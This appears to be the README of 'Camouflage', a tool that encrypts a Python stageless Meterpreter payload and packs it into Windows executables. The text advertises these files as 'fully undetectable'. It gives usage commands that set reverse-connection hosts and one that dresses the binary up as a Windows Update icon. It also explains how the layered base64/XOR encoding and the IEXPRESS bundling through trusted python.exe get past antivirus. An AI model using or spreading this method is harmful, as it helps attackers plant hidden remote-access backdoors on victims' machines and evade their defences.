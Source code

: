 # 𝕮𝖆𝖒𝖔𝖚𝖋𝖑𝖆𝖌𝖊
### ρутнση stageless мєтєяρяєтєя ¢яуρтєя


## Features
- Supports TCP/HTTP/HTTPS python stageless meterpreter.
- Wraps the python meterpreter with an encryption stub.
- Converting the final stub to C code then compiling it to a native executable, or bundling it with an embedded python version in one executable. 
- Produces FUD executables.


## Requirements
- Python3.x
- Windows OS
- MSVC Toolchain (optional)


## Installation

#### This version works on python3 and only supports Windows OS for now.
`python -m pip install -r requirements.txt`

## Examples

#### `python .\camouflage.py -p tcp -H 192.168.140.102:8080 --packer compile -o Final --icon C:\Windows\System32\WindowsUpdateImportant.ico`
#### `python .\camouflage.py -p https -H 192.168.140.102:443 --srw 3 --ua "Meterpreter Test"`


## How it works
#### The script begins by patching "meterpreter.py" with the provided parameters by the user, encrypting the script starts with base64 encoding (first cycle) then xor encrypting with an 8-Byte key then base64 encoding again (second cycle), the result is saved to a stub, the stub then does the opposite to execute the original code, there are two options to pack the script, either by converting it to C and compiling it to a native binary via Nuitka (harder to Reverse Engineer) or bundling the script with an embedable python version using a Windows legacy program called IEXPRESS (more OPSEC) because the scripts gets executed by "python.exe" which is a trusted program by Windows, rather than using flagged methods of bundling (pyinstaller, py2exe, ..etc).
#### At the moment the program only works on Windows because the way it is compiled and bundled, in future releases cross compiling can be added to include Linux support.   

## Note
Add `meterpreter.py` to execlusion list or turn off AV.

## Demo
#### Windows 11 x64
![Demo](resources/demo.gif)
